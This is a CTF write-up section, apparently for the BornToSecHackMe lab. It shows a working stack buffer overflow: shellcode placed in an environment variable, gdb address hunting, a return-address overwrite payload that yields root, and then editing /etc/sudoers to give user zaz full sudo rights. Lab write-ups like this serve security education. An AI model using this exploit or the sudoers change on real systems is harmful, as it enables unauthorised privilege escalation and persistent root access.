 ## Bonus 3 - Buffer Overflow

Similar to Return2libc attack, except that instead of pointing to /bin/sh, we will point to our own shellcode.

````bash
export SHELLCODE=`perl -e 'print "\x90"x31 . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" . "\x10\xfc\xff\xbf"'`


gdb exploit_me
(gdb) b *main
(gdb) r
(gdb) x/s *((char **)environ+0)

(gdb)  x/50xg 0xbffff8a3

0xbffff8a3:	0x444f434c4c454853	0x9090909090903d45
0xbffff8b3:	0x9090909090909090	0x9090909090909090
0xbffff8c3:	0x9090909090909090	0x310876895e1feb90
0xbffff8d3:	0xb00c4689074688c0	0x568d084e8df3890b
….
````

=> we take 0xbffff8b3
````bash
$> ./exploit_me $(python -c 'print "i"*140 + "\xb3\xf8\xff\xbf"')
````
=> we are root

Pour donner tous les privileges à zaz, on peut modifier les droits du fichier /etc/sudoers :
````bash
$ chmod 666 /etc/sudoers
````
Modifications du fichier :
````bash
[...]
16 # Cmnd alias specification
17
18 # User privilege specification
19 root    ALL=(ALL:ALL) ALL
20 zaz     ALL=(ALL:ALL) ALL
21
22 # Members of the admin group may gain root privileges
23 %admin ALL=(ALL) ALL
[...]
````
````bash
$> chmod 440 /etc/sudoers
````
````bash
$>sudo su
$>[sudo] password for zaz:
$>root@BornToSecHackMe:/home/zaz# id
$>uid=0(root) gid=0(root) groups=0(root)
````

https://beta.hackndo.com/buffer-overflow/
